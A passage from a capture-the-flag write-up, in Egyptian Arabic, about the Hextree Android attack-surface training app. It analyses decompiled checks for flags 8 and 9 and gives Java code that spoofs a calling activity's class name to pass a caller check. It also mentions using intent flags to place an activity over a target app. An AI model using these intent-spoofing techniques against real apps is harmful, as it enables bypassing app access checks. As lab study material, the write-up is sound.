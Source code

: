 ```java
startActivity(reopenIntent);
```

استخدام single_Top flag كفاية بس ممكن تحتاج flags زيادة في سيناريوهات مختلفة زي في حالات activity تاني يحاول يكون فوق مكان التطبيق العاوز تهجم علية  الخ الخ الخ....

لمعلومات أكتر شوف [[android life cycle]]

### Flag 8

#### تحليل الكود

```java
 ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            if (callingActivity.getClassName().contains("Hextree")) {
                this.f.addTag("calling class contains 'Hextree'");
                success(this);
            } else {
                Log.i("Flag8", "access denied");
                setResult(0, getIntent());
            }
        }
```

- الـ Activity ده بيجيب معلومات عن الـ activity اللي شغله باستخدام `getCallingActivity()`. ده بيرجع `ComponentName` object يحدد هوية الـ calling activity (مين الباشا البيكلمنا).
- بعدين بيشيك لو الـ activity الحالي اتشغل من activity تاني باستخدام `startActivityForResult()` _(calling activity)_
- بعدين بيشيك لو اسم class الخاص بالـ calling activity فيه string "Hextree"

#### الحل

عشان أحل ده عملت class هيكون ليه الاسم المطلوب

```java
public class Hextree extends AppCompatActivity {  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        Intent intent = new Intent();  
        intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag8Activity"));  
        startActivityForResult(intent,42);  
    } 
}
```

### Flag 9

#### تحليل الكود

```java
        ComponentName callingActivity = getCallingActivity();
        if (callingActivity == null || !callingActivity.getClassName().contains("Hextree")) {
            return;
        }
        Intent intent = new Intent("flag");
        this.f.addTag(intent);
        this.f.addTag(42);
        intent.putExtra("flag", this.f.appendLog(this.flag));
        setResult(-1, intent);
        finish();
        success(this);
```
